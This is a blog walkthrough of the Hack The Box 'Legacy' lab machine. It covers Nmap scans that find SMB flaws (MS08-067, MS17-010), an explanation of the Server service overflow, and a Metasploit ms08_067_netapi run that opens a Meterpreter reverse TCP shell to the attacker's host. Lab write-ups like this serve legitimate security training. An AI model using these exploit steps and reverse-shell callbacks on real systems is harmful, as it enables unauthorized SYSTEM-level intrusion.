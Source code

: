 ﻿---
title: 'Legacy Walkthrough: Exploiting vulnerable Server Service'
date: 2024-10-18 12:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- smb
- standalone
description: Walkthrough of HTB's Legacy machine
---
*Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.*

## Recon

I started with a standard Nmap scan to discover open ports:
```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.4 --max-retries 0 
SYN Stealth Scan Timing: About 15.49% done; ETC: 04:22 (0:00:33 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.072s latency).
Not shown: 61228 closed tcp ports (reset), 4304 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
### Nmap Flags:
- **`-sS`**: Performs a SYN scan (stealth scan).
- **`-n`**: Disables DNS resolution to speed up scanning.
- **`--disable-arp-ping`**: Skips ARP ping.
- **`-p`**: Scans all of the ports.
- **`-A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning

### key Observations

- Port 139/445: SMB service (Windows shares).

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 139,445 10.10.10.4 --max-retries 0
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%), Microsoft Windows XP SP2 or SP3, or Windows Embedded Standard 2009 (93%), Microsoft Windows XP SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-10-23T08:15:17+03:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b2:02 (VMware)
|_clock-skew: mean: 5d00h15m42s, deviation: 2h07m16s, median: 4d22h45m42s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
The findings strongly suggest that this machine is running Windows XP SP2/SP3

To Identify the SMB version and possible vulnerabilities for the smb

```bash
sudo nmap --script=vuln -p 139,445 10.10.10.4 -n -Pn                                         
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-18 01:00 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.081s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```

It looks like the SMB is vulnerable to EternalBlue and NETAPI exploit.

---
### Background

If SMB is enabled on a machine, the Server Service (also know as LanmanServer) will listen for incoming SMB Conncetions on ports 139 and 445. The server service is responsible for handling requests that come in over these ports.

SMB also provides a communication channel for RPC (Remote Procedure Call). The Server service listens for RPC requests over the same ports (139/445) and forwards those requests to the appropriate service, like SAM (Security Account Manager) or LSA (Local Security Authority), using named pipes (e.g., \pipe\samr for SAM-related operations).

**SMB** = Pipeline/Channel: SMB establishes the communication channel between the client and server. It handles connection setup, session management, and access control.

**RPC** = Payload/Message: RPC encapsulates the commands or operations that need to be executed remotely. The client sends RPC calls to the server over the SMB connection, and the server sends back the RPC responses through the same SMB connection.

- In the case of CVE-2008-4250 (MS08-067), the attacker sends a specially crafted RPC request over SMB (usually on port 445).
- The Server service, which is listening on port 445, processes the incoming RPC request.
- The vulnerability in the Server service's RPC handling code is exploited by the malicious RPC request, causing a buffer overflow, allowing the attacker to execute arbitrary code with SYSTEM privileges.



---

### Exploiting through MetaSploit
As we are aware of that the machine is vulnerable to MS08-067, searching for any available exploits using search in the msfconsole
![msfconsole]({{ '/assets/img/Legacy/msf_search.png' | relative_url }})
Using the same exploit to pwn the machine

```bash
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
```

Configuring the target IP and leaving the OS flavour to metasploit to figure out

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.10
LHOST => 10.10.16.10
```

Running the exploit to get SYSTEM privileges, as we are exploiting the system service
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.10:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 2 opened (10.10.16.10:4444 -> 10.10.10.4:1033) at 2024-10-17 23:24:45 -0400

meterpreter >
```


## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References

[MS08_067_Walkthrough](https://github.com/cjjduck/ms08_067_walkthrough)

[Exploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)




